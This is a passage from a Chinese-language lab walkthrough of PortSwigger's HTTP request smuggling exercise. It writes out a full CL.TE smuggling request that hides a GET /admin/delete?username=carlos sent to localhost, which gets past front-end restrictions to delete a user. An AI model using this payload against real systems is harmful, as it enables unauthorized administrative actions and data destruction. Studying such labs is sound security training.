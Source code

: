 [![](assets/1698897445-4e6c3bdbdb6b79efc9621e4e74d582a5.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155053.png)

得到了删除的 api ，于是我们再利用 HTTP Smuggling 访问这个 `/admin/delete?username=carlos` 即可，构造如下数据包：

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 63
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

[![](assets/1698897445-ed66ebc77580e60c5061e9126991babb.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155603.png)

这种攻击方式类似 HTTP SSRF ，主要的点就是在控制 CL 数值上，比如说第一个数据包 CL 的值为 28 ，是这么计算的：

